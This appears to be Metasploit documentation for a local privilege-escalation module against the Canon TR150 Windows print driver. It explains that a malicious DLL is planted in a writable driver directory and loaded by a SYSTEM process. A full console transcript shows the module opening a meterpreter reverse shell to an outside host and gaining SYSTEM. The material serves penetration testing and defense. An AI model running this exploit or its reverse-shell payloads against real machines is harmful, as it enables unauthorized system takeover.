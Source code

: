 ## Vulnerable Application

  The Canon TR150 print driver version 3.71.2.10 and
  below allow escalation of privileges on Windows systems.

  For vulnerable drivers, a low-privileged user can
  read/write files within the `CanonBJ` directory
  and its subdirectories.

  `PrintIsolationHost.exe`, a Windows process running
  as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
  during the installation of a printer. A user can
  elevate to SYSTEM by writing a malicious DLL to
  the vulnerable driver directory and adding a new
  printer with a vulnerable driver.

  This module leverages the `prnmngr.vbs` script
  to add and delete printers. Multiple runs of this
  module may be required given successful exploitation
  is time-sensitive.

## Verification Steps

  1. Install a vulnerable Canon TR150 driver
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/canon_driver_privesc```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM.

## Scenarios

### Tested with Canon TR150 series `v3.71.2.10`

  ```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270 
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:49816) at 2021-08-05 11:14:25 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(windows/local/canon_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/canon_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon driver directory has full permissions
[*] Dropping bat to C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[*] Adding printer ePzTcgz...
[*] Sending stage (200262 bytes) to 10.0.0.7
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:49819) at 2021-08-05 11:15:31 -0400
[*] Deleting printer ePzTcgz

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > quit
[*] Shutting down Meterpreter...
  ```
